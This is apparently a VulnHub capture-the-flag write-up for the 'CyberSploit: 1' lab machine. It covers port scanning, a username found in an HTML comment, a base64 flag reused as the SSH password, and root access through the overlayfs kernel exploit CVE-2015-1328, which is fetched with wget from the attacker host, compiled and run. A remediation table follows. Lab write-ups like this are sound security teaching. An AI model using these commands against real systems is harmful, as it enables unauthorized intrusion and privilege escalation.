







# CyberSploit: 1 — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Easy | **Target IP:** 192.168.32.138 | **Attacker IP:** 192.168.32.128

## Machine info



## Summary

**CyberSploit: 1** is built around a username hidden in an HTML comment on the site, paired with a base64-encoded `robots.txt` entry whose decoded content doubled as both the first flag and the SSH password. From there, a second flag was found encoded in binary, and privilege escalation was achieved through a public kernel exploit (overlayfs, CVE-2015-1328) against the outdated 3.13 kernel.

**Attack chain:** Nmap recon → Hidden username in HTML comment → Base64-encoded robots.txt → Flag1 reused as SSH password → SSH access → Binary-encoded Flag2 → Kernel version enumeration → Overlayfs privilege escalation (CVE-2015-1328) → Root

## 1. Reconnaissance





```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 192.168.32.138

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
```

Two services of interest: SSH and Apache with a custom page titled "Hello Pentester!".

## 2. Web Enumeration & Credential Discovery



Viewing the page source revealed a hidden HTML comment disclosing a username:

```
<!-------------username:itsskv--------------------->
```

```
gobuster dir -u http://192.168.32.138/ -w /usr/share/wordlists/rockyou.txt -x php,txt,js

hacker               (Status: 200) [Size: 3757743]
robots.txt           (Status: 200) [Size: 79]
robots               (Status: 200) [Size: 79]
```

`robots.txt` returned a base64-encoded string:



```
echo "R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9" | base64 -d

Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

The decoded flag doubled as the SSH password for the username found earlier.

Username: **itsskv**
Password: **cybersploit{youtube.com/c/cybersploit}**

## 3. Initial Access

```
ssh itsskv@192.168.32.138

Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)
itsskv@cybersploit-CTF:~$
```

```
itsskv@cybersploit-CTF:~$ cat flag2.txt
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

Decoding the binary:

```
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

```
itsskv@cybersploit-CTF:~$ sudo -l
Sorry, user itsskv may not run sudo on cybersploit-CTF.
```

No sudo rights for itsskv.

## 4. Privilege Escalation

```
itsskv@cybersploit-CTF:~$ find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/su
/bin/mount
/usr/bin/sudo
/usr/bin/pkexec
...
```

Standard SUID binaries, nothing exploitable there.

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
```

Kernel 3.13.0-32 is vulnerable to the overlayfs local privilege escalation (CVE-2015-1328). A local Python HTTP server was used on the attacker machine to serve the exploit (37292.c), fetched with wget on the target, compiled, and executed:

```
itsskv@cybersploit-CTF:~$ wget http://192.168.32.128:8000/37292.c
Saving to: `37292.c'

itsskv@cybersploit-CTF:~$ gcc 37292.c -o ofs

itsskv@cybersploit-CTF:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
#
```

Root shell obtained.



```
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```



```
# cat finalflag.txt
flag3: cybersploit{Z3X21CW42C4 many many congratulations !}
```

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Username disclosed in an HTML comment on a public page | Never leave usernames or hints in publicly accessible source code |
| A CTF flag was reused as the SSH password | Never reuse secrets across purposes; use unique, unpredictable credentials |
| Sensitive data (flag/credential) stored base64-encoded in `robots.txt` | `robots.txt` is publicly readable by design; never use it to store secrets |
| Outdated kernel (3.13.0-32) vulnerable to overlayfs privilege escalation (CVE-2015-1328) | Keep the kernel patched and apply security updates promptly |
| No sudo restrictions needed to be bypassed — privilege escalation relied entirely on an unpatched kernel | Regularly audit kernel version against known local privilege escalation CVEs |
